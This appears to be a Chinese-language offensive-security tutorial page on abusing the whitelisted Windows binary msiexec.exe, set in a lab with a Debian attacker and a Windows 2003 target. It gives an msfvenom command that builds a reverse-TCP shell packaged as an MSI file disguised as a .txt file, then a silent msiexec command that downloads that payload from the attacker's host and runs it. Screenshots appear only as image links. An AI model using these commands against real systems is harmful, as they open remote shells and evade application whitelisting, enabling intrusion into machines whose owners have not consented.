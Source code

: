 **注：**请多喝点热水或者凉白开，身体特别重要。

### Msiexec简介：

Msiexec 是 Windows Installer 的一部分。用于安装 Windows Installer 安装包（MSI）,一般在运行 Microsoft Update 安装更新或安装部分软件的时候出现，占用内存比较大。并且集成于 Windows 2003，Windows 7 等。

**说明：**Msiexec.exe所在路径已被系统添加PATH环境变量中，因此，Msiexec命令可识别。

### 基于白名单Msiexec.exe配置payload：

Windows 2003 默认位置：

```bash
C:\WINDOWS\system32\msiexec.exe
C:\WINDOWS\SysWOW64\msiexec.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：** 192.168.1.119 Windows 2003

### 配置攻击机msf：
![](media/2649cf5ad568984ff20e46111fa98b12.jpg)


### 配置payload：

```bash
msfvenom ‐p windows/x64/shell/reverse_tcp LHOST=192.168.1.4 LPORT=53 ‐ f msi > Micropoor_rev_x64_53.txt
```
![](media/5c011fcb99c3411ae97fb78affcca15d.jpg)

![](media/69b03297f582100971130f6ac6a9e1e4.jpg)

### 靶机执行：

```bash
C:\Windows\System32\msiexec.exe /q /i http://192.168.1.4/Micropoor_rev\_x64_53.txt
```
![](media/39acc13b2f9da5473510eed6d26c74a1.jpg)

![](media/c70a2131fc4a5392c8405806438ca269.jpg)

![](media/7f9e95b7d3fa9393cd1e6a4978294430.jpg)

>   Micropoor
